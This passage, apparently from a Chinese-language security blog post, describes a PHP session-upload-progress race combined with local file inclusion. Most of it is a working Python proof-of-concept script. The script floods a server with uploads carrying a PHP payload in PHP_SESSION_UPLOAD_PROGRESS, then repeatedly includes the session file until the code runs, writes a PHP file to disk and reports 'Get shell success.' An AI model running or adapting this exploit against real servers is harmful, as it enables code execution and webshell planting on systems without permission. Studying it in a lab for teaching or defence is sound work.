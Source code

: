 我们从 PHPSESSID 中得到我们的 session 名以后，我们就一边疯狂请求 upload 页面 一边疯狂包含我们的 session 文件就好了

**这里给出一个 可用的 POC**

```php
#!coding:utf-8

import requests
import time
import threading

host = 'http://localhost'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'

def creatSession():
    while True:
        files = {
        "submit" : ("tmp.gif", open("E:/fuck.gif", "rb"))
        }
        data = {"PHP_SESSION_UPLOAD_PROGRESS" : "<?php echo 'K0rz3n';file_put_contents('F:/muma.php','<?php phpinfo();?>');?>" }
        headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
        r = requests.post(host+'/index.php',files = files,headers = headers,data=data)


fileName = "E:/phpstudy/PHPTutorial/tmp/tmp/sess_"+PHPSESSID

if __name__ == '__main__':

    url = "{}/qweasdzxc.php?rf={}".format(host,fileName)
    headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
    t = threading.Thread(target=creatSession,args=())
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url,headers=headers)
        if "K0rz3n" in res.content:
            print res.content
            print("[*] Get shell success.")
            break
        else:
            print("[-] retry.")
```

对于这个 POC 我在本地也做了测试，下面是我的测试过程
